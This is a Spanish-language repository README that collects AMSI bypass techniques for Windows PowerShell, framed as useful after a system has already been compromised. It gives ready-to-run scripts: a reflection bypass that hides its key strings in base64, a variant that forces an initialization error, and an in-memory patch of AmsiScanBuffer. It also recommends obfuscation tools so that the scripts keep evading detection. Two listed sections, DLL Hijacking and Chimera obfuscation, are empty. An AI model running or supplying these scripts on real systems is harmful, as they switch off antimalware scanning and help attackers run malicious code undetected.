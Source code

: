 # Evasión AMSI #

Este repositorio contiene algunos métodos de evasión en AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022

Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron por fuera técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramienta de ofuscaión como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Metodo Reflection de Matt Graeber](#Método-Reflection-de-Matt-Graeber "Goto Método-Reflection-de-Matt-Graeber")
2. [Error Forzado](#Error-Forzado "Goto Error-Forzado")
3. [DLL Hijacking](#DLL-Hijacking "goto DLL-Hijacking")
4. [Memory Patching](#Memory-Patching "Goto Memory-Patching")
5. [Ofuscación con Chimera](#Ofuscación-con-Chimera "Goto Ofuscación-con-Chimera")

## Método Reflection de Matt Graeber ##

<details><summary>Ver Script</summary>
<p>
 
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado ##

<details><summary>Ver Script</summary>
<p>
 
```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>

## DLL Hijacking ##



## Memory Patching ##

<details><summary>Ver Script</summary>
<p>

```powershell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>

## Ofuscación con Chimera ##

